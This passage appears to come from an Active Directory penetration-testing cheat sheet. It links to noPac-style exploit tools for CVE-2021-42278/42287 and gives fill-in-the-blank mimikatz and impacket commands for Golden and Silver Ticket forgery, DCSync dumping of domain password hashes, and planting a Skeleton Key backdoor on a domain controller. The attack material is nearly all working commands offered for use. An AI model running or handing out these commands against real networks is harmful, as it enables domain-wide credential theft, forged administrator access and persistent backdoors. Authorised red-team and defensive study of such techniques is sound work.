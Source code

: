 * [sAMAccountname Spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing) Exploitation of CVE-2021-42278 and CVE-2021-42287
* [Weaponisation of CVE-2021-42287/CVE-2021-42278](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) Exploitation of CVE-2021-42278 and CVE-2021-42287
* [noPAC](https://github.com/cube0x0/noPac) C# tool to exploit CVE-2021-42278 and CVE-2021-42287
* [sam-the-admin](https://github.com/WazeHell/sam-the-admin) Python automated tool to exploit CVE-2021-42278 and CVE-2021-42287
* [noPac](https://github.com/Ridter/noPac) Evolution of “sam-the-admin” tool

### **Domain Persistence**



#### **Golden Ticket Attack**

```
#Execute mimikatz on DC as DA to grab krbtgt hash:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>

#On any machine:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### **DCsync Attack**

```
#DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'

#DCsync using secretsdump.py from impacket with NTLM authentication
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm

#DCsync using secretsdump.py from impacket with Kerberos Authentication
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
```

**Tip:**\
/ptt -> inject ticket on current running session\
/ticket -> save the ticket on the system for later use

#### **Silver Ticket Attack**

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```

[SPN List](https://adsecurity.org/?page\_id=183)

#### **Skeleton Key Attack**

```
#Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>

#Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```
